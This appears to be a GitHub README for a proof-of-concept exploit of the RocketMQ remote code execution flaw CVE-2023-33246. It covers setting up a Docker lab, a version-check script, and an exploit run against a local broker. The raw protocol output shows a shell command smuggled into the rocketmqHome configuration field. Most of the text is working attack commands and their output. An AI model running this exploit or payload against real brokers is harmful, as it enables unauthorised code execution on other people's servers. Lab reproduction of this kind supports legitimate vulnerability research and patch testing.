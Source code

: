 ## RocketMQ RCE (CVE-2023-33246)

### Build the lab

```bash
$ docker-compose -f lab/docker-compose.yml up --build -d

[+] Running 2/2
 ✔ Container rmqnamesrv  Started
 ✔ Container rmqbroker   Started 
```

### Using the scripts

```bash
$ python3 check.py 127.0.0.1 9876

Broker address: 127.0.0.1:10911
Broker version: V4_9_5
```

```bash
$ python3 exploit.py 127.0.0.1 10911 'touch /tmp/poc_succeed'

b'\x00\x00\x00\xac\x00\x00\x00`{"code":25,"flag":0,"language":"JAVA","opaque":0,"serializeTypeCurrentRPC":"JSON","version":403}filterServerNums=1\nrocketmqHome=-c $@|sh . echo touch /tmp/poc_succeed;\n'
b'\x00\x00\x00c\x00\x00\x00_{"code":0,"flag":1,"language":"JAVA","opaque":0,"serializeTypeCurrentRPC":"JSON","version":403}'
```

![result](succeed.png)
